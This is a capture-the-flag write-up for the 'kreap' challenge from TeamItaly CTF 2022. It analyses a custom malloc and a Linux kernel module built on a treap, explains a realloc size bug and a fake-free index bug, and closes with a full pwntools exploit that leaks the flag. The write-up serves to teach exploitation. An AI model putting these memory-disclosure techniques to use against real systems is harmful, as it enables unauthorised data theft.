


# TeamItaly CTF 2022

## kreap (0 solves)

Description:

> One day I woke up and wanted to create a _kreap_... So I created a _kreap_. It just happens I didn't know about DAX back then...

### Solution

We are given two files: `chall`, a 64-bit ELF binary, and `kreap.ko`, a Linux kernel module.

Two hints are immediatly given by the challenge name and the description: `kreap` stands for `kernel treap`, and the description hints `DAX` (Direct Access) is probably missing in some way from the kernel module.

#### chall

We start by decompiling the `chall` binary.
Checking the `.init_array` section, we can see that the binary is calling `sub_13C8+1`.



After analyzing the function, we can see that it opens `/dev/kreapctl`:

```c
kreapctl = open("/dev/kreapctl", O_RDWR);
```

And writes 12 bytes (3 integers) to the device, of which the first 4 bytes are set at 0. It then reads 8 bytes (2 integers) from the device.
It then checks if the first integer is nonzero (error checking) and opens `/dev/kreapmem%d` where `%d` is the second integer.

```c
kreapmem = open(s, O_RDWR | O_DSYNC);
```

Also, there is a fini function that closes the two file descriptors.

```c
int kreap_fini()
{
  close(kreapmem);
  return close(kreapctl);
}
```

We can see that the binary is using the `kreapctl` and `kreapmem` devices, so we can assume that the kernel module is providing these devices.

The main function displays a menu with various options:



- The first option opens `flag.txt` and calls `getline` to read the flag.
- The second option calls `getline` on the `stdin`, storing the pointer to the input in a user selected slot.
- The third options prints the content of a user selected slot.
- The fourth option leaks the address of the pointer to the flag buffer (we'll see that this option is completely useless in this writeup).
- Lastly, the fifth option calls `free` on a user selected slot.

There seems not to be any vulnerability in the main function, opening the `malloc` function, though, we see that is it redefined, as well as `free`, `calloc`, `realloc` and `reallocarray` functions.

The `malloc` function is defined as follows:

```c
void *__fastcall malloc(size_t sz)
{
  char *err; // rax
  void *result; // rax
  size_t no_sectors; // [rsp+10h] [rbp-30h]
  size_t *ptr; // [rsp+18h] [rbp-28h]
  int recv[2]; // [rsp+24h] [rbp-1Ch] BYREF
  int sent[3]; // [rsp+2Ch] [rbp-14h] BYREF
  unsigned __int64 canary; // [rsp+38h] [rbp-8h]

  canary = __readfsqword(0x28u);
  no_sectors = (sz + 519) >> 9;                 // ceil_div(sz + 8, 512)
  sent[0] = 1;
  sent[1] = no_sectors;
  if ( write(kreapctl, sent, 0xCuLL) < 0 )
    exit(1);
  if ( read(kreapctl, recv, 8uLL) < 0 )
    exit(1);
  if ( recv[0] )
  {
    err = strerror(recv[0]);
    fprintf(stderr, "malloc failed: %s", err);
    result = 0LL;
  }
  else
  {
    if ( recv[1] != tot_sectors )
      exit(1);
    if ( mem )
    {
      mem = mremap(mem, tot_sectors << 9, (tot_sectors + no_sectors) << 9, 0);
      if ( mem == (void *)-1LL )
        exit(1);
    }
    else
    {
      mem = mmap((void *)0x100000000000LL, no_sectors << 9, 3, 19, kreapmem, 0LL);
      if ( mem == (void *)-1LL )
        exit(1);
    }
    ptr = (size_t *)((char *)mem + 512 * tot_sectors);
    *ptr = no_sectors;
    tot_sectors += no_sectors;
    result = ptr + 1;
  }
  return result;
}
```

The function divides the size (adding 8 bytes, needed to store a size before the data allocated) by 512 (probably the sector size of the device) and then calls `write` on the `kreapctl` device with the integer 1 and the number of sectors needed to store the data.
Then it calls `read` on the `kreapctl` device, and checks if the first integer is nonzero (error checking).

Upon receiving the answer from the device, it checks if the second integer received is equal to the total number of sectors allocated so far.

Then it maps a memory area as large as the number of sectors allocated times 512 bytes, stores the number of sectors allocated in the first 8 bytes of the memory area, and returns a pointer to the memory area plus 8 bytes.

The `calloc` functions simply calls `malloc` and then zeroes the memory area.

The `realloc` function calls `malloc` and then copies the data from the old memory area to the new one. It then calls `free` on the old memory area.

```c
void *__fastcall realloc(void *ptr, size_t size)
{
  void *result; // rax
  unsigned __int64 old_size; // rdx
  void *dest; // [rsp+10h] [rbp-10h]

  if ( size )
  {
    if ( ptr )
    {
      dest = malloc(size);
      old_size = min(*((_QWORD *)ptr - 1), size);
      memcpy(dest, ptr, old_size);
      free((__int64)ptr);
      result = dest;
    }
    else
    {
      result = malloc(size);
    }
  }
  else
  {
    free((__int64)ptr);
    result = 0LL;
  }
  return result;
}
```

In the `realloc` function, the amount of data copied is the minimum between the old size and the new size, but in this comparison the "old size" is the sector size located before the actual data of the buffer and **it is not** multiplied by 512. This means that if we can trigger a reallocation of a buffer, only $\frac{\text{size}}{512}$ bytes will be copied, and the rest of the buffer will be left uninitialized.

```c
/* size is in bytes, but the size stored in the buffer is in sectors */
old_size = min(*((_QWORD *)ptr - 1), size);
memcpy(dest, ptr, old_size);
```

The `reallocarray` function just calls `realloc` with the product of the two arguments (and checks for multiplication overflow).

Lastly, the `free` function calls `write` on the `kreapctl` device with the integer 2, the sector of the buffer to free and the number of sectors to free.

Now that we have a good understanding of the binary, we can move on to the kernel module.

#### kreap.ko

Next, we analyze the `kreap.ko` binary: running `modinfo kreap.ko` we get some initial informations:

```bash
❯ modinfo kreap.ko
filename:       /app/kreap.ko
license:        GPL
author:         collodel
description:    kreap > heap
srcversion:     3347C950E699B39CFCAEB46
depends:
retpoline:      Y
name:           kreap
vermagic:       5.15.0-47-generic SMP mod_unload
```

Along with the description, which hints in some other way that this challenge could involve the heap.

##### struct kreap_pdata

There is an array of structs of type `kreap_pdata` defined in the module:

```c
/* Data exclusive to a process using the kreap module */
struct kreap_pdata {
	/* used in kreapctl.c */
	struct kreap_cmd	cmd;		/* last command issued to the ctl device */
	struct kreap_ans	ans;		/* last answer calculated by the ctl device */
	bool			ready;		/* the ctl device is ready to answer */
	wait_queue_head_t	wait_queue;	/* wait queue for the ctl device to answer */
	/* used in kreapmem.c */
	struct gendisk		*disk;		/* disk device */
	treap_ptr		treap;		/* the treap */
	u32			next_sector;	/* the next sector that will be allocated */
	u32			free_sectors;	/* the number of free sectors */

	/* used to create a node in /dev */
	struct device		*device;
};

static struct kreap_pdata kreap_pdata_arr[KREAP_MAX_PROCESSES];
```

This structure is referenced in various places in the code, such as `kreapctl_open`. The `cmd` and `ans` fields are used to store the last command and answer issued to the `kreapctl` device, while the `ready` field is used to check if the `kreapctl` device is ready to answer. The `wait_queue` field is used to wait for the `kreapctl` device to receive a full command before answering.
Also we can observe that there is a different `disk` and a separate `treap` for each process using the module.

##### kreapctl

After some tedious reverse engineering we can see that the kernel module creates a character special device (with major 69) called `kreapctl` that is used to interact and send command to the kernel module.

`kreapctl` implements four operations from the struct `file_operations`:

```c
static const struct file_operations kreap_file_operations = {
    .owner     = THIS_MODULE,
    .open     = kreapctl_open,
    .release = kreapctl_release,
    .read     = kreapctl_read,
    .write     = kreapctl_write
};
```

Let's see what each of them does.

- `kreapctl_open` is called when the device is opened, it mainly creates a new `kreapmem` disk (we'll see what it is later) and initializes the private_data pointers.

- `kreapctl_release` is called when the device is closed, it frees the `kreapmem` disk and all the sectors allocated, also NULLs the private_data pointers.

- `kreapctl_read` is called when the device is read, it waits for a flag `kreap_pdata.ready` before executing any code, and allows a program to read an answer to a command issued to the module.

- `kreapctl_write` is called when the device is written, it sets the flag `kreap_pdata.ready` to 1, when it reads a full command, it then executes the command sent to the module.
  The commands that can be issued to the device are the following:
  - `CMD_GET_DISK`: returns the disk minor of the `kreapmem` disk allocated for this fd.
  - `CMD_MALLOC`: takes as argument a size (in sectors), and returns the address of a sector where the asked size is being allocated (in the `kreapmem` disk).
  - `CMD_FREE`: takes as argument an offset (in sectors) and the number of sectors to free, it then frees the memory allocated at that address.

##### kreapmem

`kreapmem` refers to a block device that can dynamically create disks when a process opens the `kreapctl` device. A `kreapmem%d` disk is created in the `kreapctl_open` function, and it is destroyed in the `kreapctl_release` function.

When the disk is created, its capacity is set initially to 0.

On a `malloc` command, the module checks if there are enough free sectors to allocate the requested size, and if so, it allocates the sectors and returns the address of the first sector allocated.
While there aren't enough free sectors, the module increases the capacity of the disk by 1 `megasector` (which is 3855 sectors allocated in 2 MB of memory).

The struct `kreap_megasector` is:

```c
struct kreap_megasector {
	/* Padding to align the megasector to a multiple of PAGE_SIZE */
	u8		padding[PAGE_SIZE - ((sizeof(refcount_t) + sizeof(struct treap)
				* KREAP_MS_NODES_COUNT) & (PAGE_SIZE - 1))];

	refcount_t	refcount;			/* Reference count used to free megasectors */
	struct treap	nodes[KREAP_MS_NODES_COUNT];	/* Treap nodes */
} __randomize_layout;
```

##### struct treap

We said that it was hinted that this challenge used a `treap` data structure in some way, and even if someone hadn't spotted that, after reverse engineering many recursive functions, it would have been clear that a data structure of some sort was being used.

[This](https://cp-algorithms.com/data_structures/treap.html) is a good explanation of what a treap is, but in short, it is a data structure that is a combination of a binary search tree and a heap, in this challenge it's implemented as an implicit treap, which is used to implement a dynamic array that can be splitted and merged in $\mathcal{O}(\log n)$ time.
Every operation of access is also $\mathcal{O}(\log n)$ to nodes.

Every node stores a buffer of 512 bytes, and an index, which is the absolute offset of the node in the disk.

This instructions in `kreapctl_open` also confirm a previous guess:

```c
    blk_queue_logical_block_size(*(_QWORD *)(v8 + 80), 512LL);
    blk_queue_physical_block_size(*(_QWORD *)(v8 + 80), 512LL);
```

The `sector_size` of the `kreapmem%d` disks is 512 bytes, which is noncoincidentally the size of the buffer of every node: for every sector of the disk we have a matching treap node (with the exception of the freed areas).
We could confirm this guess by reversing the `kreapmem_file_operations` struct (that implements `submit_bio` and `page_rw`), but we already have enough information to understand how the challenge works.

##### The vulnerability

Let's dig deeper in the `CMD_MALLOC` and `CMD_FREE` commands and how they can be implemented using treaps.

`CMD_MALLOC` is a simple command, the code checks if there are enough free sectors to allocate the requested size (the counter of free_nodes is kept on `kreap_pdata`), and if there isn't, it increases the capacity of the disk by 1 megasector.

It repeats the entire process until there are enough free sectors, and then it **flags** them as "allocated" by increasing the `next_sector` variable (also stored in `kreap_pdata`) and removing the count of the allocated nodes from the `free_nodes` counter.

After allocating the sectors, the module sets the return data in the `kreap_ans` struct (always inside `kreap_pdata`) with the value of the `next_sector` variable before it was incremented.

`CMD_FREE` is a bit more complex, and it basically splits a contiguous area of sectors to free at the boundaries, then it merges the chunks at the left and at the right of the freed area, and finally it appends the freed chunk at the end of the treap (in the "free" area).

The splits are made in such a way that when everything is merged the indexes of everything on the right of the freed chunk remains **unchanged**, while the freed chunk is appended updating indexes normally.

But what if there is nothing on the right of the freed chunk? The module will try to merge the freed chunk with the chunk on the left, since there was nothing on the right to be merged with the left chunk. Namely, the indexes of the free nodes will be updated to $\text{last-index-of-the-left-chunk} + 1$.

When the module writes/reads from a sector in the range of the "fake-freed" chunk, all the operations will be made on the last element of the treap that can be modified, which is the last element of the left chunk.

We have a way to write on the same area in memory from various places!

#### Summing up

We can now write down a strategy to exploit the challenge: we will first fill up the initial `megasector` until there are about ~20/30 free nodes left.
Then we will allocate that many nodes and then free them to trigger the "fake-free".
Next, we allocate a sector we can read from and we then choose option 1, reading the flag from the file `/flag.txt`.
When the flag is read, our allocated sector will be overwritten and we will be able to read the flag from there.

#### Exploitation

There is only a **little** problem: page cache. The `kreapmem` disks are block devices, and they are cached in the page cache, so when we read from a sector, the page cache will be used instead of the disk.

This means we won't be able to read the updated version of the sector from the disk (since it is already loaded into the RAM).

To solve this problem, we could try to swap out the interesting page, but this is not the best way to solve this problem, and it would probably almost DOS the server.

We can now instead remember the initial vulnerability we found on the `realloc` function (that is used in the `getline`), that allows us to copy less data than the size of the buffer, and read **uninitialized data**!

To finish the exploit correctly, we have to move the sector allocation (from which we can read) as the last allocation on the device, also we have to wait ~30 seconds before triggering the reallocations, to be sure that the writes to the device are synced to the disk.

Last but not least, we have to align the writes correctly (see exploit) because the page cache is allocated in 4 KB pages, and we have to write on the same sector while avoiding to write extra zeros (that is the sector after the flag buffer sector).

### Exploit

```python
from pwn import *

exe = ELF("./attachments/chall")
context.binary = exe

def main():
    if (args.REMOTE):
        r = remote("localhost", 1337)
    else:
        r = process(exe.path)

    ## Exploit ##
    SLOT_NO = 0        # current slot number
    MS_SIZE = 3855        # number of nodes in a multisector
    GETLINE_INIT_SZ = 120    # initial size of the getline buffer
    FAKE_FREE_NODES = 15    # number of nodes to fake free
    KREAP_SECTOR_SIZE = 512 # size of a sector in the kreap (in bytes)
    NEXT_SECTOR = 0        # next sector number that will be allocated

    # Get near the end of the MS
    # Getline size gets always doubled
    SECTORS = [0] * 20
    SIZES = [0] * 20
    for i in range(20):
        SIZES[i] = (GETLINE_INIT_SZ) * (1 << i) - 1 - 1 # endl + nullbyte
        # add 8 bytes for the block size stored before the data at every allocation
        SECTORS[i] = (SIZES[i] + 1 + 1 + 8 + KREAP_SECTOR_SIZE - 1) // KREAP_SECTOR_SIZE
        print("[+] Iteration {}: {} sectors (to trigger: {})".format(i, SECTORS[i], SIZES[i]))

    SECTORS_ALLOCATED = 0

    # Allocate the biggest size that doesn't trigger the ms overflow
    # Keep the nodes to fake free in the range: [MS_SIZE - FAKE_FREE_NODES * 2, MS_SIZE - FAKE_FREE_NODES]
    info("Filling the megasector with nodes...")
    while SECTORS_ALLOCATED < MS_SIZE - FAKE_FREE_NODES * 2:
        # Find the biggest size that doesn't get over MS_SIZE - FAKE_FREE_NODES
        for i in range(20):
            if SECTORS_ALLOCATED + SECTORS[i] > MS_SIZE - FAKE_FREE_NODES:
                break
        i -= 1
        warn("Allocating {} sectors".format(SECTORS[i]))

        store_data(r, SLOT_NO, b"A" * (SIZES[i]))
        SLOT_NO += 1

        SECTORS_ALLOCATED += SECTORS[i]
        NEXT_SECTOR += sum(SECTORS[:i+1])

    warn("SECTORS_ALLOCATED: {}".format(SECTORS_ALLOCATED))
    FAKE_FREE_NODES = MS_SIZE - SECTORS_ALLOCATED

    # Try to free nodes on the edge of the MS, the chunk has to be long at least ~20 nodes
    info("Fake freeing {} nodes on the edge of the megasector...".format(FAKE_FREE_NODES))

    # Allocate as many nodes as the end of the MS - 1
    for i in range(FAKE_FREE_NODES - 1):
        store_data(r, SLOT_NO + i, b"A")
        NEXT_SECTOR += 1

    # Fake free for each allocated
    for i in range(FAKE_FREE_NODES - 1):
        store_data(r, SLOT_NO + FAKE_FREE_NODES - 1, b"A")
        NEXT_SECTOR += 1
        erase_data(r, SLOT_NO + FAKE_FREE_NODES - 1)

    # Free each node previously allocated
    for i in range(FAKE_FREE_NODES - 1):
        erase_data(r, SLOT_NO + i)

    warn("NEXT_SECTOR: {}".format(NEXT_SECTOR))
    ALIGN_COUNT = 5 - NEXT_SECTOR % 8
    warn("Aligning to 5 (mod 8) using {} sectors...".format(ALIGN_COUNT))

    # Align the sectors to 5 mod 8
    for i in range(ALIGN_COUNT):
        store_data(r, SLOT_NO, b"A")
        SLOT_NO += 1

    # Load the flag
    info("Loading the flag...")
    load_flag(r)

    warn("Waiting for the write to be synced")
    sleep(30)

    # We trigger a realloc
    store_data(r, SLOT_NO, b"A"*GETLINE_INIT_SZ)
    SLOT_NO += 1

    warn(read_data(r, SLOT_NO - 1).decode())

    print(r.recvall(timeout=1))
    log.success(str(SLOT_NO + FAKE_FREE_NODES) + " slots used")
    r.close()

## Util functions ##
def load_flag(r):
    r.sendlineafter(b">", b"1")

def store_data(r, slot, data):
    r.sendlineafter(b">", b"2")
    r.sendlineafter(b">", str(slot).encode())
    r.sendlineafter(b">", data)

def read_data(r, slot):
    r.sendlineafter(b">", b"3")
    r.sendlineafter(b">", str(slot).encode())
    return r.recvline().strip()

def erase_data(r, slot):
    r.sendlineafter(b">", b"5")
    r.sendlineafter(b">", str(slot).encode())

# execute code
if __name__ == "__main__":
    main()
```
